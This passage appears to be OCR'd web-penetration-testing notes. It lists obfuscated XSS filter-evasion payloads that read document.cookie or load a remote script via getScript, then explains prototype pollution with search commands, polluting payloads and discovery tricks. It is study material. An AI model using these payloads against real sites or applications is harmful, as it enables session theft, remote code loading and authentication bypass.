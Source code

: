                 self["\x24"]["\x67\x6c\x6f\x62\x61\x6c\x45\x76\x61\x6c"]("\x61\x6c\x65\x72\x74\x28\x31\x29");
                self["$"]["getScript"]("https://example.com/my.js");	
        XSS Filter Evasion:  https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
            More:  https://gist.githubusercontent.com/rvrsh3ll/09a8b933291f9f98e8ec/raw/535cd1a9cefb221dd9de6965e87ca8a9eb5dc320/xxsfilterbypass.lst
            Comment Method:  ex. document/*foo*/./*bar*/cookie	
            Other Examples:
                window["document"]["cookie"]
                window["alert"](window["document"]["cookie"]);	
                self[/*foo*/"alert"](self[document"/*bar*/]["cookie"]);	
                self["ale"+"rt"](self["doc"+"ument"]["coo"+"kie"])
                self["\x61\x6c\x65\x72\x74"](self["\x64\x6f\x63\x75\x6d\x65\x6e\x74"]["\x63\x6f\x6f\x6b\x69\x65"])
    Advanced Sandbox Eval Escape:  https://www.netspi.com/blog/technical/web-application-penetration-testing/escape-nodejs-sandboxes/
    Prototype Pollution: 
        egrep -iR 'merge|extend|\[|parse\(|extend\(|merge\(' .       //look for controllable variables as array keys
        View libraries/dependencies:  docker-compose -f ~/chips/docker-compose.yml run chips npm list -prod -depth 1
        Look for recursive merge/extend features; JSON.parse() - where you control the input data type
        https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution
        Background:
            JavaScript vulnerability in which an attacker can inject properties in every object created by an application
                The inherited properties of a class of objects can be changed by referencing the prototype of an object instance
            __proto__ is part of the prototype chain, but prototype is not
            the 'new' keyword sets '__proto__' to the constructor function 'prototype'
            prototype is a property of a Function object - refers to the function itself; It is the prototype of objects constructed by that function.
            __proto__ is an internal property of an object, pointing to its prototype.
            ex. var myPoint = new Point(); -> All True: myPoint.__proto__ == Point.prototype; myPoint.__proto__.__proto__ == Object.prototype
            ex. Student.prototype.isActive() or myStudent.isActive() (aka myStudent.__proto__.isActive()) both work
                When Student.prototype.isActive is modified, so is myStudent.__proto__.isActive
                the isActive function is a link from the __proto__ object to the prototype of Student.
            Modify a class's method from the class (affects all instances):  Student.prototype.toString=...
            Modify a class's method from an instance of the class (affects all instances: myStudent.__proto__.toString=...
        Vulnerability:   if an application accepts user input and allows us to inject into the prototype of Object
            *Often occurs in 'extend' or 'merge' type functions
            *Merge must be recursive (calls itself)
            *Must accept user-provided data (not just run at initialization)
            *Injected property must provide a path to code execution or authentication bypass - check where the properties are used
                ex. isAdmin
            Look for JSON payloads to inject into - try injecting everywhere in the array!   
        Modifying top-level 'Object' pollutes everything, current and future (unless separately defined)!
            {}.__proto__.toString=...
            Object.prototype.toString=...
            abc.__proto__.__proto__.__proto__.toString=...
            Example: after merging {"hello": "world"} and {["__proto__"] :{"bar": "foobar"}} -> {}.bar = 'foobar'
            Variables polluted into the prototype are enumerable (when not using 'length' or 'foreach'):  for (var key in {}) console.log(key) -> bar; for (var i in [1,2]) console.log(i) -> 0,1,bar          
        Discovery: replace a commonly-used function in Object and look for application crash/errors - toString; valueOf
            {}.__proto__.toString = 'blah'
            Look for: "...is not a function...", errors, crash
            Try accessing other pages and look for errors
            Only some properties may be merged - try injecting everywhere!